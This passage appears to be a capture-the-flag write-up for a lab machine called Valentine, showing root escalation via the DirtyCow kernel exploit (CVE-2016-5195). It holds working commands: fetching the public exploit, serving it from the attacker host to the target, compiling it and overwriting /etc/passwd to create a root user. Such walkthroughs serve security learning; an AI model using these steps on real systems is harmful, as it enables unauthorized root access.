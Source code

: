 seem like we can use CVE-2016-5195 (DirtyCow) to exploit the kernel and gain root. There are many good vid on youtube explain how DirtyCow works, pls check them out. Base on hacktricks there are many exploit out there so check `https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs` I will be using the last one `https://github.com/FireFart/dirtycow/blob/master/dirty.c`.


Base one the comment on `dirty.c` the exploit will create a new user call `firefart` which have root permission! so lets do it!!
on kali
```console
bibo318@parrot:/opt$ sudo wget https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
bibo318@parrot:/opt$ python3 -m http.server --cgi 8888
```
now get the `dirty.c` to valentine!
```console
hype@Valentine:~/Desktop$ wget http://10.10.14.9:8888/dirty.c
--2020-10-06 12:07:38--  http://10.10.14.9:8888/dirty.c
Connecting to 10.10.14.9:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4815 (4.7K) [text/plain]
Saving to: `dirty.c'

100%[=================================================================>] 4,815       --.-K/s   in 0.002s  

2020-10-06 12:07:38 (2.49 MB/s) - `dirty.c' saved [4815/4815]

hype@Valentine:~/Desktop$ gcc -pthread dirty.c -o dirty -lcrypt
hype@Valentine:~/Desktop$ ./dirty
hype@Valentine:~/Desktop$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fi8RL.Us0cfSs:0:0:pwned:/root:/bin/bash

mmap: 7f119f0d1000
^C
hype@Valentine:~/Desktop$ su firefart
Password: 
firefart@Valentine:/home/hype/Desktop# id
uid=0(firefart) gid=0(root) groups=0(root)
```
boom we got root. as it said in the exploit, dont for get to put the real `/etc/passwd` back
```
// DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!
//   mv /tmp/passwd.bak /etc/passwd
```
HAPPY HACKING
